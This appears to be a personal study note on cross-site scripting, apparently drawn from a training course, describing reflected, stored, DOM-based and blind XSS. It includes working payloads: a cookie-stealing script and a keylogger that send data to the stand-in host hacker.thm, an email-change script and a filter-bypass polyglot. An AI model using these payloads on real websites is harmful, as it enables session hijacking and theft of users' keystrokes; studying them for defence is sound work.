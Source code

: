 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/pentesting/xss/"}
---
```







- Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

## ==Session Stealing==

- Details of a user's session, such as login tokens, are often kept in cookies on the targets machine.

```JavaScript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

## ==Key Logger==

- This means anything you type on the webpage will be forwarded to a website under the hacker's control.

```JavaScript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

## ==Business Logic==

- This would be about calling a particular network resource or a JavaScript function.

```JavaScript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

## ==Reflected XSS==

- The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to ==**execute code on their browser, potentially revealing session or customer information.**==
- Need to test every possible point of entry; these include:
    - Parameters in the URL Query String
    - URL File Path
    - Sometimes HTTP Headers (although unlikely exploitable in practice)

## ==Stored XSS==

- The malicious JavaScript could redirect users to another site, **==steal the user's session cookie, or perform other website actions while acting as the visiting user.==**

## ==DOM Based XSS==

- DOM Based XSS is where the JavaScript execution happens directly in the ==**browser without any new pages being loaded or data submitted to backend code.**==
- The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section.

## ==Blind XSS==

- Is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, ==**you can't see the payload working or be able to test it against yourself first.**==
- Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, **==the staff member's cookies, and even the contents of the portal page that is being viewed.==**

## Polyglot

- An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.

```JavaScript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```